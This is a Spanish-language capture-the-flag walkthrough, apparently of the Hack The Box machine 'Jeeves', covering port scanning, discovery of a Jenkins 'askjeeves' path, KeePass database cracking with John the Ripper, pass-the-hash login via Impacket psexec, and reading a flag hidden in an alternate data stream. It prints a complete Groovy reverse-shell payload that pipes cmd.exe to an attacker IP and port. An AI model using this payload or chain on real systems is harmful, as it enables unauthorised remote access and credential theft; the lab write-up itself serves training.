 
![](../img/Jeeves/0.png)
#Windows #Medium 
___

Comenzamos con un reconocimiento básico de la máquina mediante el escaneo de puertos. Para ello, utilizamos **RustScan** de la siguiente manera:

```bash
sudo rustscan -a 10.129.228.112 --ulimit 5000 -r 1-65535 -- -sCV -oN targeted
[sudo] password for kali: 
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
To scan or not to scan? That is the question.

[~] The config file is expected to be at "/root/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 10.129.228.112:80
Open 10.129.228.112:135
Open 10.129.228.112:445
.....
```

Procedemos a inspeccionar las páginas web disponibles, identificando que están accesibles a través de los puertos 80 y 5000. Además, verificamos la existencia de sesiones nulas en los protocolos RPC y SMB.

### Puerto 80

![](../img/Jeeves/1.png)

### Puerto 50000

![](../img/Jeeves/2.png)

### Realizamos una comprobación de los protocolos SMB y RPC para determinar si aceptan sesiones nulas.

### SMB

![](../img/Jeeves/3.png)

### RPC

![](../img/Jeeves/4.png)


Después de realizar las comprobaciones y análisis iniciales, procedemos a realizar un fuzzing en los dos aplicativos web con el objetivo de identificar posibles subdirectorios.



![](../img/Jeeves/5.png)

Durante el reconocimiento comprobamos la existencia de un direcotio llamado *askjeeves*

Una vez dentro, procedemos a nevegar en la pagina web, y obsevamos que tenemos una seccion de script, para ello usamos un comando que aprovecha de Grovy script para darnso una reverse shell

![](../img/Jeeves/6.png)


![](../img/Jeeves/7.png)


```Groovy
String host='10.10.14.59';
int port=1234;
String cmd='cmd.exe';
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

Si todo sale bien procedemos a obtener una reverse shell

![](../img/Jeeves/8.png)

Ahora toca escalar privilegios

Para ello, comenzamos buscando archivos **.kdbx** utilizando el siguiente comando:

```cmd
dir C:\*.kdbx /S /A:-D
```

Esto nos proporcionó como resultado una base de datos. Utilizamos **keepass2john** para convertirla a un formato compatible con **John the Ripper** y procedimos a realizar un ataque de fuerza bruta para descifrarla.

![](../img/Jeeves/9.png)

![](../img/Jeeves/10.png)

Logramos descifrar la base de datos utilizando **John the Ripper**.

![](../img/Jeeves/11.png)

A continuación, utilizamos **KeePassXC** para abrir la base de datos. Con la contraseña descifrada previamente con **John the Ripper**, obtenemos un hash de administrador. Posteriormente, empleamos la utilidad **psexec.py** de **Impacket** para establecer una conexión con el sistema.

![](../img/Jeeves/12.png)

Una vez conectado procedemos a encontrar la bandera de root pero al entrar al escriotorio nos percatamos que soo hay un archivo llamado hm.txt, para procedimos a hacer el siguiente comando 

```cmmd
dir /s/r hm.txt
```

Obteniendo como resultado lo siguiente.

![](../img/Jeeves/13.png)

Ejecutamos el siguiente comando para verificar si podemos acceder al flujo alternativo de datos:

```cmd
more < hm.txt:root.txt
```

Obteniendo como resultado la flag.
